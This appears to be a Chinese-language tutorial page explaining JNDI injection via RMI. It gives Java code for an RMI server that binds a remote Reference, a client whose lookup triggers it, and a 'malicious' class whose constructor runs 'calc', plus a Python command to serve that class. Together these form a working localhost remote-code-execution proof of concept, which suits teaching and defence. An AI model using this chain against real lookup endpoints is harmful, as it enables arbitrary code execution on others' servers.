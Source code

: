 ## JNDI 注入
### JNDI+RMI

对于如下JNDI服务：

=== "RMI Server"

    ```java
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import javax.naming.Reference;
    import com.sun.jndi.rmi.registry.ReferenceWrapper;

    public class RMIServer {
        public static void main(String[] args) throws Exception{
            Registry registry = LocateRegistry.createRegistry(7778);
            Reference reference = new Reference("Calc","Calc","http://127.0.0.1:8087/");
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("RCE",wrapper);
        }
    }
    ```

=== "RMI Client"

    ```java
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    public class RMIClient {
        public static void main(String[] args) throws NamingException{
            String uri = "rmi://127.0.0.1:7778/RCE";
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(uri);
        }
    }
    ```
=== "Malicious Class"

    ```java
    public class Calc {
        public Calc() throws Exception {
            Runtime.getRuntime().exec("calc");
        }
    }
    ```

通过python在Calc.class所在目录启动一个http服务：

```bash
python -m HTTP.server 8087
```

运行后Client会向7778端口的Server发送请求，Server会返回一个Reference对象指向8087端口的Calc类，Client接收到Reference对象后会调用Calc类的构造函数，从而执行`Runtime.getRuntime().exec("calc");`。
